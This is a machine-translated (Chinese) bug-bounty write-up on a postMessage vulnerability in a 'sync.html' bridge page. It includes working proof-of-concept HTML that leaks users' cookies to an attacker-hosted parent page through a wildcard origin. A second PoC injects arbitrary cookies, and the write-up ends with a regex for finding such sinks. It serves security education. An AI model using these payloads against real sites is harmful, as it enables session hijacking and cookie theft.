


# 利用 post 消息窃取并替换用户的 cookies

> 原文：<https://infosecwriteups.com/exploiting-post-message-to-steal-users-cookies-7df43a00289a?source=collection_archive---------0----------------------->

你好

在检查与目标相关的记录的 HTTP 请求的历史时，我发现了一个接收器，它帮助我利用 post 消息并窃取或编辑用户的 cookies。

不幸的是，我的大部分发现属于私人项目，所以我们不会透露全部细节。



# **背景**

曾经需要在窗口或当前窗口和内部 iframe 之间进行通信吗？也是跨域的吗？我敢打赌，你有，但现在我们有一个很好的选择这样做！

该解决方案被称为 postMessage，是 HTML5 Web 消息规范的一部分。


**让我们举一个例子**

在这个例子中，我们将有一个包含 js 行的页面来监听传入的消息并记录它们。

*主页面中的代码*

```
<script>
    function messages(event)
    {
        console.log(event); 
    }
    window.addEventListener(‘message’,messages,false);
    console.log(“listening”);
 </script>
<**iframe** src="url/child.html"></**iframe**>
```

子页面中的一行向父页面发送消息。

*子页面中的代码*

```
window.parent.postMessage("Hello parent", "target");
```

发生什么事了？

*   首先，您访问呈现和加载子页面的主页。

。子页面向其父页面发送消息，父页面通过控制台接收并记录消息。

你认为这里有什么安全问题吗？


*   你能想象如果用户可以控制`target`的值会发生什么吗
*   如果子页面容易被点击劫持怎么办

**提示**

如果目标原点是星号`*`则消息可以发送到任何有引用的子页面域。

这取决于具体情况。这可能会导致严重的问题。让我们用一个在知名公司发现的真实例子来演示。

**回到发现。**

我们称我们的目标为 onga.com，这意味着什么？


无论如何，我搜索了这个领域，开始寻找一些有趣的东西。遍历所有被抓取的页面，我的扫描仪捕获了一个 html 文件`sync.html`，里面有少量的 HTML 内容。

据报道有不安全的 Javascript 语句。



不安全代码检测

该文件没有元素，而不是一个脚本标签，似乎它作为一个桥梁。

在查看`sync.html` 文件时，我注意到一条 post 消息被发送到一个名为`wOrigin`的变量

```
window.parent.postMessage(JSON.stringify(msg), wOrigin);
```

我们现在有两个主要变量:`msg`和`wOrigin`

我上下滚动来看这些变量在哪里被初始化，它们在我的控制之下吗？

令人惊讶的是`msg`变量是 cookies，另一个是用户输入。


寻找第二个变量，幸运的是我只找到了 3 次。

首先查看这个代码片段，注意下面几行:

```
 var fdata = JSON.parse(decodeURIComponent(window.location.hash.substr(1)));
        var ns = fdata.ns;
        var worigin = fdata.worigin;
```

代码非常简单，

*   首先，它访问当前窗口的 url 哈希
*   解码它
*   解析为 json 对象
*   创建新的两个变量`ns`,代表名称空间和`wOrigin` 窗口原点

*这就是众所周知的 sink* `*window.location.hash*` *当你看到它的时候，你应该尝试利用它作为基于 dom 的 xss。但这不是我们的问题。*

很快我继续查看其他代码行，看看这些变量`ns and worigin`在传递给 postmessage 之前是否被净化了，幸运的是它们没有被净化。

**移动剥削**

我们需要逆转这个过程

*   创造两个变量`ns and wOrigin`
*   给它们分配`ns=anyblah`和`wOrigin=*`
*   创建为 json 对象`{"ns":"anyblah","wOrigin":"*"}`
*   创建 poc url:
*   `http://vulnerable-onga.com/sync.html#{"ns":"anyblah","wOrigin":"*"}`

当页面加载时，一条 post 消息将被发送到父页面，而不考虑其来源，我们使用通配符`*`来处理任何来源。

现在我们需要在父页面中设置一个监听器来接收消息。

```
<script>
  function rcv(event)
   {   
       console.log(event);
   }
  window.addEventListener('message',rcv,false);
</script>
```

创建一个 iframe，将易受攻击的页面作为子页面加载。

**完整概念验证**

```
<script>
  function rcv(event)
   {
    console.log(event); 
   }
  window.addEventListener('message',rcv,false);
</script>
<iframe src='http://vulnerable-onga.com/sync.html#{"ns":"anyblah","wOrigin":"*"}' />
```

当您打开`http://attacker.com/poc.html`时，监听器将运行并等待传入的消息，iframe 将被加载，易受攻击的页面将进入 iframe，并将包含 cookie 的消息发送到攻击者的父站点，最后它将被捕获并记录，在我们的示例中，它包含泄露给攻击者的用户 cookie。


我们结束了吗？？？

当然不是，不要像我以前那样去庆祝，你可能会忘记很多，让我们玩得更开心，因为文件只包含 57 行，我决定仔细阅读它们。

我发现了另一条惊人的线。

```
window.addEventListener('message', h_message);
```

快速开始查看`h_message`功能的内容:

```
function h_message(event) 
{
          var data = null;
          try { data = JSON.parse(event.data); } catch(e) { return;}
          if (data.msgType !== "write" && data.namespace !== ns) {
            return;
          }
          setCookie(data.cookieName, data.cookieVal,parseInt(data.expiresDays, 10), data.secureOnly);        
} 
```

让我们了解一下这个函数的目的是什么？

*   传入的消息应该包含 json 对象。
*   Json 对象应该包含属性`msgType`并且必须等于`write`
*   另一个属性`namespace`应该与位置散列`"ns"`中存在的属性相同，两者都在用户的控制之下。
*   其中一个条件必须满足，而不是两个都满足，因为开发人员使用了负数和运算符，顺便说一下，这不是一个严重的问题
*   如果是这样，验证将为假，将不会到达 return 语句，并且将执行对包含其他 json 属性作为参数的另一个函数的调用`setCookie()`。

这确实是易受攻击的，没有对消息来源的验证，因此任何网站都可以发送消息并将恶意值传递给`setCookie`函数。

根据上面的代码，我构建了以下 json:

```
{"msgType":"write","namespace":"a","cookieName":"injectedt","cookieVal":"hacked","expiresDays":10,"secureOnly":false}
```

并且目标网址会是`/sync.html#{"ns":"a","wOrigin":"*"}`

完整的 poc 文件将包含:

```
<script>
       var tar='http://onga.com/sync.html#{"ns":"a","wOrigin":"*"}';
       var pay={"msgType":"write","namespace":"a","cookieName":"injectedt","cookieVal":"hacked","expiresDays":10,"secureOnly":false};   
       var c= window.open(tar,"child");
       c.postMessage(pay,"*");
</script>
```

将文件保存为 html 并打开它，cookie 被成功注入，我能够在易受攻击的网站上注入任意 cookie。


**Tip2**

*   如果页面被保护防止点击劫持，你可以使用`window.open('url')`

【poc1 的视频

偷饼干的 Poc1

对于该工具，除了请求 url 和搜索以下模式之外，它什么也不做:

```
(\.location\.hash)|(window\.addEventListener\('message')|(\.postMessage\()
```

***Ref***

*   [http://www . sec-1 . com/blog/WP-content/uploads/2016/08/Hunting-postMessage-Vulnerabilities.pdf](http://www.sec-1.com/blog/wp-content/uploads/2016/08/Hunting-postMessage-Vulnerabilities.pdf)
*   [https://www.youtube.com/watch?v=XTKqQ9mhcgM](https://www.youtube.com/watch?v=XTKqQ9mhcgM)
*   [https://robertnyman . com/2010/03/18/post message-in-html 5-to-send-messages-between-windows-and-iframes/](https://robertnyman.com/2010/03/18/postmessage-in-html5-to-send-messages-between-windows-and-iframes/)
*   [https://gist . github . com/yassergsy/1 fc 77 ff 9b 678 FB 5028 a 272 a 86 C1 D2 ea 1](https://gist.github.com/YasserGersy/1fc77ff9b678fb5028a272a86c1d2ea1)

*对于任何问题，在推特上 DM 我或者使用【https://ask.fm/yasserGersy】[](https://ask.fm/yasserGersy)*

*愉快的研究*